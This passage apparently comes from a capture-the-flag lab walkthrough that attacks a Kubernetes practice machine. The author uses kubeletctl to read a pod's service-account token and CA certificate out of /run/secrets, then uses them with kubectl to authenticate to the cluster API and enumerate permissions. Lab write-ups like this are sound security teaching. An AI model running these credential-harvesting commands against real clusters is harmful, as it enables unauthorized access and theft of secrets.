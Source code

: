 ```
- ca.crt: It's the ca certificate to check kubernetes communications
- namespace: It indicates the current namespace
- token: It contains the service token of the current pod.
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cd323320-ebdc-4e95-8bd3-d9b20e74540d)

Now, with the ca.crt and the token, I can authenticate to the cluster which is running on 8443 on which I wasn't able to authenticate earlier.

I leveraged this newfound knowledge to extract the ca.crt and token to my local Kali host:

```bash
kubeletctl exec 'cat /run/secrets/kubernetes.io/serviceaccount/ca.crt' -p nginx -c nginx -s 10.10.11.133 > ca.crt
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/63858c4d-01a4-4725-ab83-11676b7e31e6)

```bash
export token=$(kubeletctl exec 'cat /run/secrets/kubernetes.io/serviceaccount/token' -p nginx -c nginx -s 10.10.11.133) #saved this in an environment variable to reduce copy paste efforts.
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/1414ae6d-18ea-4ee1-8eee-1d6af6270d5d)

After having all the necessary file saved into my attacker host, I downloaded another tool to facilitate authentication to the Kubernetes API:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl" #to download kubectl
```

Armed with kubectl, ca.crt, and the token, I finally succeeded in authenticating to the Kubernetes API, accessible on port 8443:

```bash
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod #listed the pods
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/30a8345e-a6d1-451c-9b58-41dfe07b0354)

While I was able to list pods, my privileges were still restricted when attempting to fetch information about namespaces:

```bash
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get namespaces
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/7e936ef6-b6a7-41c1-a093-a5a576a07e2f)

I employed the "auth can-i" command to ascertain my capabilities, revealing that I could create pods within the container:

```bash
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token auth can-i --list
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/2178c6c7-a557-4e76-aafe-58b35c1a4c54)
